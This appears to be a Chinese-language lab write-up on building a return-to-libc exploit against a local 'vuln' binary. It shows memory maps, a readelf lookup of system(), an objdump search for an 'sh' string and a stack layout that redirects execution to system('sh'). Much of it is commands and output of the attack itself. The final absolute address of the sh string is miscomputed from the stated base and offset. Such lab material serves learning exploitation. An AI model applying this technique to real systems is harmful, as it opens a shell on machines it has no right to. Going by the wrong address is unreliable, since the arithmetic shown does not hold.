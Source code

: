 #### exp编写过程
通过`more /proc/19669/maps`查看libc的基地址
```
08048000-08049000 r-xp 00000000 fd:00 69981924                           /root/sploitfun/vuln
08049000-0804a000 r--p 00000000 fd:00 69981924                           /root/sploitfun/vuln
0804a000-0804b000 rw-p 00001000 fd:00 69981924                           /root/sploitfun/vuln
f7e01000-f7e02000 rw-p 00000000 00:00 0 
f7e02000-f7fc6000 r-xp 00000000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc6000-f7fc7000 ---p 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc7000-f7fc9000 r--p 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc9000-f7fca000 rw-p 001c6000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fca000-f7fcd000 rw-p 00000000 00:00 0 
f7fd8000-f7fd9000 rw-p 00000000 00:00 0 
f7fd9000-f7fda000 r-xp 00000000 00:00 0                                  [vdso]
f7fda000-f7ffc000 r-xp 00000000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffc000-f7ffd000 r--p 00021000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffd000-f7ffe000 rw-p 00022000 fd:00 34036408                           /usr/lib/ld-2.17.so
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
```
得到libc基地址为`f7e02000`

通过`readelf -s /usr/lib/libc-2.17.so | grep system`查看system的offset
```shell
   246: 00132650    73 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ef70    98 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1454: 0003ef70    98 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
   513: 00000000     0 FILE    LOCAL  DEFAULT  ABS system.c
   514: 0003ea40  1089 FUNC    LOCAL  DEFAULT   13 do_system
  5193: 00132650    73 FUNC    LOCAL  DEFAULT   13 __GI_svcerr_systemerr
  7022: 0003ef70    98 FUNC    WEAK   DEFAULT   13 system
  7618: 00132650    73 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr
  7683: 0003ef70    98 FUNC    GLOBAL DEFAULT   13 __libc_system
```
通过`objdump -s /usr/lib/libc-2.17.so |less`查找sh字符并且以00结尾
```
 0e5b8 5f6d6f64 64693300 696e6574 365f6f70  _moddi3.inet6_op
 0e5c8 745f6669 6e697368 005f494f 5f646566  t_finish._IO_def
 0e5d8 61756c74 5f787370 75746e00 5f5f7763  ault_xsputn.__wc
```
得到sh.位置offset为0e5ce,固sh.位置的绝对位置为`0xf7Ee05ce`

我们需要在栈空间进行如下构建
```
 ______
| AAAA |
|------|
| .... |
|------|
| AAAA |
|------|
|SYSTEM|
|------|
| AAAA |
|------|
|  SH  |
|______|
```
